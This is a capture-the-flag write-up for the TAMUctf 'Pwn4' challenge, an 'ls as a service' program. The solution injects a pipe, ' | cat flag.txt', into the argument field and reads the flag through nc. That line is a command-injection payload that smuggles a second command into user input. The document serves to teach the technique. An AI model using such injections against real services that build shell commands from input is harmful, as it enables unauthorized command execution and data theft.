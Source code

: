 # Pwn4
Pwn, 100 points

## Description:

A binary file was attached, in addition to an address and port.

## Solution:

Let's run the binary:

```console
root@kali:/media/sf_CTFs/tamu/Pwn4# nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
-al
Result of ls -al:
total 20
drwxr-xr-x 1 root    root    4096 Feb 19 20:47 .
drwxr-xr-x 1 root    root    4096 Mar 14 21:45 ..
-r--r--r-- 1 pwnflag pwnflag   23 Feb 19 17:28 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 7504 Feb 19 17:28 pwn4
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
```

This service accepts parameters to be passed on to `ls` and provides us with the output.

The most trivial experiment to perform is to pass it a pipe to another command:

```console
root@kali:/media/sf_CTFs/tamu/Pwn4# echo " | cat flag.txt" | nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
Result of ls  | cat flag.txt:
gigem{5y573m_0v3rfl0w}
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
^C
```

The flag is easily outputted without a need to analyze the binary.
